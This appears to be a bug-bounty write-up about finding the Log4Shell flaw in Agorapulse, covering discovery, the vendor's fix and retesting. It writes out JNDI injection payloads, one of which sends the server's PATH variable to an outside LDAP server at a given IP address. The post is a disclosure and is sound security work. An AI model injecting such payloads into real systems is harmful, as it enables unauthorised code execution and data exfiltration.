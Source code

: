 # LOG4J on Agorapulse



Log4j is a logging framework for Java applications. It is a popular choice for developers looking for a simple and flexible logging solution. However, Log4j has been found to be vulnerable to a number of security threats. The log4j library has recently been found to contain a serious vulnerability that went by the moniker of log4shell and gained widespread attention. This vulnerability allows unauthenticated remote code execution on vulnerable servers and may be exploited to expose sensitive information. For example, if an attacker can inject malicious code into a Log4j logging statement, they can execute any arbitrary commands on the vulnerable server.

For more information on Log4j security, see the following resources:

- OWASP Log4j Cheat Sheet
- Log4j Vulnerabilities and Exposures
- Secure Log4j Usage

Log4Shell vulnerability is a critical vulnerability, affecting Apache Log4j 2 versions 2.0 to 2.14.1, as identified by Chen Zhaojun of the Alibaba Cloud Security Team. NIST published a critical CVE in the National Vulnerability Database on December 10th, 2021, naming this as CVE-2021–44228. Apache Software Foundation assigned the maximum CVSS severity rating of 10.

This disclosure came storming into the security industry and a havoc was created because all companies implementing this vulnerable framework were exploitable by this critical vulnerability. One can get an idea from the analytics published by hackerone which say , “Hackers have submitted over 2,000 Log4Shell reports to over 400 of our customers. The majority of reports were made in the first 14 days after the public disclosure of Log4 Shell" . Almost the same number of reports were submitted on bugcrowd as well with over _300 reports_ submitted in a single day.


## What is agorapulse:

Agorapulse basically provides everything an organization  could possibly need for social media marketing and monitoring and management.focusing on social media platforms like facebook,linkedin and twitter,agorapulse provides a comprehensive and a compact platform for companies for their marketing strategies while also keeping it under the budget radar.The software is used to create & schedule social media content, engage audiences, listen for key terms, and analyze social media performance.


## How we found log4js on agorapulse:

It was the middle of winter of 2021 when the news of log4j vulnerability broke out in the cyber security industry. And as the norm goes, it got all the security researchers on their heels. As the clock was ticking our company decided to focus wholly on exploiting this vulnerability.

Our company had many targets to focus on and scan for this vulnerability. So the options were open. One of those available targets was agorapulse. Due to its dynamic nature and multiple functionality it was a preferable target  for our company. 

So now the target was chosen , we plunged into research mode and figured out how we were going to scan for this vulnerability. We identified features and functionalities where we could use our payloads.

As the application was pretty vast with multiple features, we had to stay organized. We used a simple and comprehensive approach of pasting payloads everywhere in the application and as said above to keep things organized we used numeric numbering to identify the triggered payloads. 

{{examples of identifiable payloads}}


On the other hand we also played it safe, using a payload that was not at all harmful to the client i,e did not result in any denial of service attack or executing any malicious code inside the application. The purpose of the payload was just to give us a pingback so the place of vulnerability could be identified. So we devised the following safe payload to identify the dns pingbacks : ${jndi:ldap://<Your-Burp-Collab-URL>/a} .

So now the identification process began and after a while we received two pingbacks. One of the received was a false pingback. But next up we had a dns pingback that identified the log4js vulnerability in that framework.



## Demonstration of Impact


As mentioned in earlier sections the successful exploitation could lead to RCE. We refrained from doing any such action which could lead to any kind of issues to the vulnerable server or the service. So, we just checked for the DNS pingback from the vulnerable server with our payload. When the victim server logs the request using log4j, then log4j interpolates the string and queries malicious Ldap server and then LDAp server responds with malicious Java class.
The contents of log messages often contain user-controlled data, attackers can insert JNDI references pointing to LDAP servers they control, ready to serve malicious Java classes that perform any action they choose.

In the payload we could use  any arbitrary command that could be executed on the server but in this case we used the following payload just to extract the environment variables of the server.

Payload : ${jndi:ldap://54.147.33.250:1389/${env:PATH}}

{{screenshot}}

We stopped right after extracting the path variables of the vulnerable server just to keep the exploitation ethical.

## Response of Agora Team

Submitting the report to the agora team, we got their first response in a day. They were responsive and concerned with the security of their online assets. They fixed the bug in a couple of days and rewarded our finding.

After their fix was implemented we  tried various payloads and bypasses to conform if the fix was working well. But we were unable to bypass the fix and it was working fine and we confirmed the fix.
